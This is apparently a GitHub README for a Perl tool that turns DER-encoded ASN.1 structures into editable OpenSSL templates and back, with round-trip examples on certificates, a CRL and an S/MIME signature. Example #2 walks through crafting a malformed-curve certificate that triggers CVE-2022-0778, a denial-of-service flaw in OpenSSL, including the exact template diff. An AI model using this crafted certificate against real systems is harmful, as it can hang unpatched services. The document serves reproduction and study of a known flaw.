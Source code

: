 # ASN1 templating for fun and profit

## Description

This tool takes a DER encoded ASN1 structure and outputs the equivalent textual
description that can be modified and later be fed to ASN1_generate_nconf(3) in
order to build the equivalent DER encoded ASN1 structure.

It's similar to https://github.com/google/der-ascii .

It works by reading the output of the asn1parse OpenSSL app in order to build
an internal structure that is then dumped to the ASN1_generate_nconf(3)
compatible textual representation.

The textual representation is documented in the man page of ASN1_generate_nconf(3):

```bash
$ man 3 ASN1_generate_nconf
```

This function is reachable via the ```-genconf``` option of the asn1parse
OpenSSL app (more info in the manual page: ```man asn1parse``` or ```man openssl-asn1parse```).


## Example #1

Take an arbitrary DER encoded certificate:

```bash
$ wget -o /dev/null https://pki.goog/repo/certs/gtsr1.der
```

Convert it to an ASN1_generate_nconf(3) compatible textual description:

```bash
$ ./asn1template.pl gtsr1.der > gtsr1.tpl
```

Convert it back to DER encoded ASN1 with ASN1_generate_nconf(3):

```bash
$ openssl asn1parse -genconf gtsr1.tpl -noout -out gtsr1_new.der
```

Original and recreated DER files are identical:
```bash
$ diff gtsr1.der gtsr1_new.der 
$ echo $?
0
```

## Example #2

This example is related to CVE-2022-0778. It is based on
https://github.com/drago-96/CVE-2022-0778 and this particular PR
https://github.com/drago-96/CVE-2022-0778/pull/4 .

Following the details presented in https://github.com/drago-96/CVE-2022-0778/pull/4 , first, generate a new EC private key:
```bash
$ openssl ecparam -out ec.key -name prime256v1 -genkey -noout -param_enc explicit -conv_form compressed
```

Then use it to generate a self signed certificate:
```bash
$ openssl req -new -x509 -key ec.key -out cert.der -outform DER -days 360 -subj "/CN=TEST/"
```

We can then generate a template from this certificate:
```bash
$ ./asn1template.pl cert.der > cert.tpl
$ cat cert.tpl
asn1 = SEQUENCE:seq1
[seq1]
field2 = SEQUENCE:seq2
field3 = SEQUENCE:seq3
field4 = FORMAT:HEX,BITSTRING:30450221008EF9E6F07C16DCAD2DAA92FACE41CEF56121EB4A230114CE7178B51937CDA20502203180533CA0986C908CD120489FDD29F6B8A3FF75C1393E4B06B2F7C4F82F0B97
[seq2]
field5 = IMPLICIT:0C,SEQUENCE:seq4
field6 = INTEGER:0x57D640F4EDDEAE0E65C364F8606F8401E73470C2
field7 = SEQUENCE:seq5
field8 = SEQUENCE:seq6
field9 = SEQUENCE:seq7
field10 = SEQUENCE:seq8
field11 = SEQUENCE:seq9
field12 = IMPLICIT:3C,SEQUENCE:seq10
[seq4]
field13 = INTEGER:0x02
[seq5]
field14 = OBJECT:ecdsa-with-SHA256
[seq6]
field15 = SET:seq11
[seq11]
field16 = SEQUENCE:seq12
[seq12]
field17 = OBJECT:commonName
field18 = FORMAT:UTF8,UTF8String:"TEST"
[seq7]
field19 = UTCTIME:220320211232Z
field20 = UTCTIME:230315211232Z
[seq8]
field21 = SET:seq13
[seq13]
field22 = SEQUENCE:seq14
[seq14]
field23 = OBJECT:commonName
field24 = FORMAT:UTF8,UTF8String:"TEST"
[seq9]
field25 = SEQUENCE:seq15
field26 = FORMAT:HEX,BITSTRING:02DB70822B848189FDFE177D9E0CED95CCEFB7B428F76C88F4BE120A421DA68C68
[seq15]
field27 = OBJECT:id-ecPublicKey
field28 = SEQUENCE:seq16
[seq16]
field29 = INTEGER:0x01
field30 = SEQUENCE:seq17
field31 = SEQUENCE:seq18
field32 = FORMAT:HEX,OCTETSTRING:046B17D1F2E12C4247F8BCE6E563A440F277037D812DEB33A0F4A13945D898C2964FE342E2FE1A7F9B8EE7EB4A7C0F9E162BCE33576B315ECECBB6406837BF51F5
field33 = INTEGER:0xFFFFFFFF00000000FFFFFFFFFFFFFFFFBCE6FAADA7179E84F3B9CAC2FC632551
field34 = INTEGER:0x01
[seq17]
field35 = OBJECT:prime-field
field36 = INTEGER:0xFFFFFFFF00000001000000000000000000000000FFFFFFFFFFFFFFFFFFFFFFFF
[seq18]
field37 = FORMAT:HEX,OCTETSTRING:FFFFFFFF00000001000000000000000000000000FFFFFFFFFFFFFFFFFFFFFFFC
field38 = FORMAT:HEX,OCTETSTRING:5AC635D8AA3A93E7B3EBBD55769886BC651D06B0CC53B0F63BCE3C3E27D2604B
field39 = FORMAT:HEX,BITSTRING:C49D360886E704936A6678E1139D26B7819F7E90
[seq10]
field40 = SEQUENCE:seq19
[seq19]
field41 = SEQUENCE:seq20
field42 = SEQUENCE:seq21
field43 = SEQUENCE:seq22
[seq20]
field44 = OBJECT:X509v3 Subject Key Identifier
field45 = FORMAT:HEX,OCTETSTRING:04145B14DB3777D5A9F9D9EBFFE5021C77F9BCAFC676
[seq21]
field46 = OBJECT:X509v3 Authority Key Identifier
field47 = FORMAT:HEX,OCTETSTRING:301680145B14DB3777D5A9F9D9EBFFE5021C77F9BCAFC676
[seq22]
field48 = OBJECT:X509v3 Basic Constraints
field49 = BOOLEAN:true
field50 = FORMAT:HEX,OCTETSTRING:30030101FF
[seq3]
field51 = OBJECT:ecdsa-with-SHA256
```

Change some of the values in the template according to https://github.com/drago-96/CVE-2022-0778 and https://github.com/drago-96/CVE-2022-0778/pull/4 :
```bash
$ diff -u cert.tpl cert_new.tpl
--- cert.tpl	2022-03-20 12:25:32.187000000 +0100
+++ cert_new.tpl	2022-03-20 12:32:48.878000000 +0100
@@ -48,11 +48,11 @@
 field34 = INTEGER:0x01
 [seq17]
 field35 = OBJECT:prime-field
-field36 = INTEGER:0xFFFFFFFF00000001000000000000000000000000FFFFFFFFFFFFFFFFFFFFFFFF
+field36 = INTEGER:0x2B9
 [seq18]
-field37 = FORMAT:HEX,OCTETSTRING:FFFFFFFF00000001000000000000000000000000FFFFFFFFFFFFFFFFFFFFFFFC
-field38 = FORMAT:HEX,OCTETSTRING:5AC635D8AA3A93E7B3EBBD55769886BC651D06B0CC53B0F63BCE3C3E27D2604B
-field39 = FORMAT:HEX,BITSTRING:C49D360886E704936A6678E1139D26B7819F7E90
+field37 = FORMAT:HEX,OCTETSTRING:0000000000000000000000000000000000000000000000000000000000000017
+field38 = FORMAT:HEX,OCTETSTRING:0000000000000000000000000000000000000000000000000000000000000000
+field39 = FORMAT:HEX,BITSTRING:0308
 [seq10]
 field40 = SEQUENCE:seq19
 [seq19]
```

Then convert the template back to DER encoded ASN1:
```bash
$ openssl asn1parse -genconf cert_new.tpl -noout -out cert_new.der

```

Finally, try to display this certificate with a CVE-2022-0778 vulnerable OpenSSL installation:
```bash
$ openssl x509 -inform DER -in cert_new.der -noout -text
```

## Example #3

It works on certificates, but, more generally, on arbitrary DER encoded ASN1
blobs. Here is the same as example #1 but with a CRL file:

```bash
$ wget -o /dev/null https://crl.pki.goog/gtsr1/gtsr1.crl
$ ./asn1template.pl gtsr1.crl > gtsr1.tpl
$ openssl asn1parse -genconf gtsr1.tpl -noout -out gtsr1_new.crl
$ diff gtsr1.crl gtsr1_new.crl
$ echo $?
0
```

Or with an smime.p7s email signature taken from https://datatracker.ietf.org/doc/html/rfc4134 (page 87):

```bash
$ cat <<EOF > smime.p7s.base64
MIIDdwYJKoZIhvcNAQcCoIIDaDCCA2QCAQExCTAHBgUrDgMCGjALBgkqhkiG9w0BBwGgggL
gMIIC3DCCApugAwIBAgICAMgwCQYHKoZIzjgEAzASMRAwDgYDVQQDEwdDYXJsRFNTMB4XDT
k5MDgxNzAxMTA0OVoXDTM5MTIzMTIzNTk1OVowEzERMA8GA1UEAxMIQWxpY2VEU1MwggG2M
IIBKwYHKoZIzjgEATCCAR4CgYEAgY3N7YPqCp45PsJIKKPkR5PdDteoDuxTxauECE//lOFz
SH4M1vNESNH+n6+koYkv4dkwyDbeP5u/t0zcX2mK5HXQNwyRCJWb3qde+fz0ny/dQ6iLVPE
/sAcIR01diMPDtbPjVQh11Tl2EMR4vf+dsISXN/LkURu15AmWXPN+W9sCFQDiR6YaRWa4E8
baj7g3IStii/eTzQKBgCY40BSJMqo5+z5t2UtZakx2IzkEAjVc8ssaMMMeUF3dm1nizaoFP
VjAe6I2uG4Hr32KQiWn9HXPSgheSz6Q+G3qnMkhijt2FOnOLl2jB80jhbgvMAF8bUmJEYk2
RL34yJVKU1a14vlz7BphNh8Rf8K97dFQ/5h0wtGBSmA5ujY5A4GEAAKBgFzjuVp1FJYLqXr
d4z+p7Kxe3L23ExE0phaJKBEj2TSGZ3V1ExI9Q1tv5VG/+onyohs+JH09B41bY8i7RaWgSu
OF1s4GgD/oI34a8iSrUxq4Jw0e7wi/ZhSAXGKsZfoVi/G7NNTSljf2YUeyxDKE8H5BQP1Gp
2NOM/Kl4vTyg+W4o4GBMH8wDAYDVR0TAQH/BAIwADAOBgNVHQ8BAf8EBAMCBsAwHwYDVR0j
BBgwFoAUcEQ+gi5vh95K03XjPSC8QyuT8R8wHQYDVR0OBBYEFL5sobPjwfftQ3CkzhMB4v3
jl/7NMB8GA1UdEQQYMBaBFEFsaWNlRFNTQGV4YW1wbGUuY29tMAkGByqGSM44BAMDMAAwLQ
IUVQykGR9CK4lxIjONg2q1PWdrv0UCFQCfYVNSVAtcst3a53Yd4hBSW0NevTFjMGECAQEwG
DASMRAwDgYDVQQDEwdDYXJsRFNTAgIAyDAHBgUrDgMCGjAJBgcqhkjOOAQDBC4wLAIUM/mG
f6gkgp9Z0XtRdGimJeB/BxUCFGFFJqwYRt1WYcIOQoGiaowqGzVI
EOF
$ base64 -d - < smime.p7s.base64 > smime.p7s
$ ./asn1template.pl smime.p7s > smime.p7s.tpl
$ openssl asn1parse -genconf smime.p7s.tpl -noout -out smime.p7s_new
$ diff smime.p7s smime.p7s_new
$ echo $?
0
```

## Limitations

This tool has the same limitations as ASN1_generate_nconf(3). For instance, it
does not support indefinite length encoding.
This crappy script was written many years ago as a quick and dirty PoC.

